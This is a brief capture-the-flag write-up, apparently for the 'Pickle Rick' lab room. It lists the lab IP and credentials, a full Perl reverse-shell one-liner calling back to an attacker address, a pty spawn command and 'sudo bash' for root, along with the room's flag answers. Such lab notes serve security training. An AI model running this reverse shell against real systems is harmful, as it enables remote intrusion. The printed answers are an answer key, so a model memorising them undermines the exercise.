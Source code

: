 # Pickle Rick-Remote code execution

```
export IP=10.10.177.58
````

```
username=R1ckRul3s
password=Wubbalubbadubdub
```
# Material needed

1. Interesting directory: /login.php, /robots.txt 

2. Reverse shell 

```
perl -e 'use Socket;$i="10.8.193.113";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

3. Spawn terminal: python3 -c 'import pty; pty.spawn("/bin/bash")' 

4. Get the root bash: sudo bash

# Tasks

1. What is the first ingredient Rick needs? mr. meeseek hair

2. Whats the second ingredient Rick needs? 1 jerry tear

3. Whats the final ingredient Rick needs? fleeb juice